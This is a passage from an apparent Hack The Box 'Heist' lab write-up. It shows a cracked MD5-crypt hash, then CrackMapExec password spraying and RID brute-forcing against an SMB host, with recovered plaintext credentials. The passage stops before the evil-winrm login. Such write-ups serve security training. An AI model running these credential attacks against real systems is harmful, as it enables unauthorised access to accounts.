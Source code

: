 ```
Candidate.Engine.: Device Generator
Candidates.#1....: 335657 -> 335101
Hardware.Mon.#1..: Util:100%

$1$pdQG$o8nrSzsGXeaduXrjlvKc91:stealth1agent 
```

Cool, looks like a new password, `stealth1agent`

Lets add our known users to a file called users.txt and the cracked passwords to a file called passwords.txt. We can then use CrackMapExec to bruteforce:

![htb_heist_cme1.png](../assets/heist_assets/htb_heist_cme1.png)

We've found valid credentials: `hazard:stealth1agent`

Lets use these credentials in crackmapexec, this time with the `--rid-brute` flag to try to discover more users:

![htb_heist_rid.png](../assets/heist_assets/htb_heist_rid.png)

Lets add these newly discovered usernames to our user.txt file.

We can then use CME again for bruteforcing:

```
┌──(ryan㉿kali)-[~/HTB/Heist]
└─$ crackmapexec smb 10.129.96.157 -u users.txt -p passwords.txt --continue-on-success | grep [+]
SMB         10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\chase:Q4)sJu\Y8qz*A3?d 
```

Nice, we found a match for chase. Lets try logging in with evil-winrm:

